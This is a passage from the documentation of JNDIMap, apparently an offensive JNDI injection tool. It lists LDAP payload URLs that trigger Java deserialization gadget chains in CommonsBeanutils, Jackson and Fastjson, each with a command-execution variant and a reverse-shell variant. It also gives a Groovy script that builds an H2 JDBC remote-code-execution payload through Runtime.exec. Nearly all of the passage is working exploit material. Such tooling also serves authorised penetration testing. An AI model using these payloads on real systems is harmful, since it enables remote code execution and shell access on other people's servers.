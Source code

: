 ```bash
# According to the different serialVersionUID of BeanComparator, it is divided into two versions: 1.8.3 and 1.9.4

# 1.8.3
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils183/ReverseShell/127.0.0.1/4444

# 1.9.4
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils194/ReverseShell/127.0.0.1/4444

# Jackson native deserialization
# Use JdkDynamicAopProxy to optimize instability issues, need spring-aop dependency
ldap://127.0.0.1:1389/Deserialize/Jackson/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Jackson/ReverseShell/127.0.0.1/4444

# Fastjson native deserialization

# Fastjson1: all versions (1.2.x)
ldap://127.0.0.1:1389/Deserialize/Fastjson1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson1/ReverseShell/127.0.0.1/4444

# Fastjson2: <= 2.0.26
ldap://127.0.0.1:1389/Deserialize/Fastjson2/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/Fastjson2/ReverseShell/127.0.0.1/4444
```

### Custom

JNDIMap supports writing custom JNDI payloads with [Groovy](https://groovy-lang.org/) language

Groovy script (using H2 RCE as an example)

```groovy
import javax.naming.Reference
import javax.naming.StringRefAddr

def list = []
list << "CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"test\"\\;}'"
list << "CALL EXEC('$args')" // parameters are passed in through the args variable


def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"))
ref.add(new StringRefAddr("jdbcUrl", url))

return ref // return Reference object
```
